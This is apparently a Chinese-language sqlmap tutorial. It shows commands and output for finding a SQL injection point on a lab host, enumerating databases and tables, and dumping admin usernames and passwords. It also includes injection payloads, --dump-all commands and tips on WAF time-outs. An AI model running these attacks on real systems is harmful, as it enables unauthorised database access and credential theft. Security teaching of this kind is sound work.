 ```yaml
---
title: Net(5)——sqlmap使用实例
date: 2020-11-11
author: LM
---
```


## 1.第一步：查找注入点

```bash
sqlmap -u '192.168.3.59/article.php?id=1' #必须带上GET参数，否则sqlmap不知道如何注入
```

```bash
root@kali:~# sqlmap -u '192.168.3.59/article.php?id=1'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:30:43

[11:30:43] [INFO] resuming back-end DBMS 'mysql' 
[11:30:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1817=1817

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2184 UNION ALL SELECT NULL,CONCAT(0x716b707071,0x517964767671746351415543654b4b794171664b78754b57434b70774c6b56434b6a46786a4d5a76,0x717a706271)-- BgjA
---
[11:30:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:30:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.3.59'

[*] shutting down at 11:30:43
```

**结果：**出现Parameter: id (GET)等内容，存在注入点

## 2.第二步：查找数据库

```bash
sqlmap -u '192.168.3.59/article.php?id=1' --dbs    #查找数据库
```

```bash
#........#
[11:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:37:43] [INFO] fetching database names
[11:37:43] [INFO] the SQL query used returns 2 entries
[11:37:43] [INFO] retrieved: information_schema
[11:37:43] [INFO] retrieved: website
available databases [2]:                                                       
[*] information_schema
[*] website
#......#
```

**结果：**注入发现两个数据库information_schema和website。information_schema主要是mysql数据库、表、列的信息，没有什么用处，website是网站的数据，对这个数据库进行注入。

## 3.第三步：注入

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website --tables  #对website表注入
```

```bash
#。。。。。#
[11:41:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:41:14] [INFO] fetching tables for database: 'website'
[11:41:14] [INFO] the SQL query used returns 2 entries
[11:41:14] [INFO] retrieved: admin
[11:41:14] [INFO] retrieved: articles
Database: website                                                              
[2 tables]
+----------+
| admin    |
| articles |
+----------+
#..........#
```

**结果：**发现有两张表admin、articles，选择注入admin

## 4.第四步：读取数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin --columns  #读取admin表中列
```

```bash
#..............#
[11:43:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:43:46] [INFO] fetching columns for table 'admin' in database 'website'
[11:43:47] [INFO] the SQL query used returns 3 entries
[11:43:47] [INFO] retrieved: "id","int(11)"
[11:43:47] [INFO] retrieved: "user","text"
[11:43:47] [INFO] retrieved: "pass","text"
Database: website                                                              
Table: admin
[3 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| user   | text    |
| id     | int(11) |
| pass   | text    |
+--------+---------+
#............#
```

**结果：**注入得到了三列user、id、pass，只要得到user和pass，就能得到密码(一般是网站后台管理的登录密码)

## 5.第五步：查看数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin -C user,pass --dump #将uesr，pass数据输出
```

```bash
#..........#
[11:47:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:47:33] [INFO] fetching entries of column(s) '`user`, pass' for table 'admin' in database 'website'
[11:47:33] [INFO] the SQL query used returns 3 entries
[11:47:33] [INFO] retrieved: "test1","123456"
[11:47:33] [INFO] retrieved: "test2","123456"
[11:47:33] [INFO] retrieved: "test3","123456"
Database: website                                                              
Table: admin
[3 entries]
+--------+--------+
| user   | pass   |
+--------+--------+
| test1  | 123456 |
| test2  | 123456 |
| test3  | 123456 |
+--------+--------+
#............#
```

**结果：**可以查看到用户名与密码

## 6.尝试一下

```bash
sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer --dump

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer -columns 

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --tables

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --dump-all

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch --dbs

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch
```

## 7.常见报错

**Q：有时发现跑出的数据都是毫无意义的字符**

**A：解决方案**

- SQLMAP会提示你加–hex或者–no-cast，有时会有帮助
- 如果你用的是time-based注射，建议增加延时–time-sec等参数，即使你的网速比较好，但是服务器可能遇见各种奇怪环境
- 增加level的数值

**Q：显示unable to connect to the target url**

**A：解决方案**

第一个可能是 time-out 设置的太小，出现问题，再有可能就是 waf 直接把请求拦截掉了，因此得不到响应。有些 waf 比较友善，过滤后会提示“参数不合法”，但是也有些waf则直接把请求拦下来无提示导致应答超时，这样在测试时会消耗大量的时间等待响应，建议减少time-out进行检测，在跑数据时改回time-out

**Q：提示possible integer casting detected**

**A：解决方案**

如果是在手工测试，建议到这里可以停止了，节省时间。如果是在扫描器扫描的盲注，那么到这里坚决无视警告继续下去。



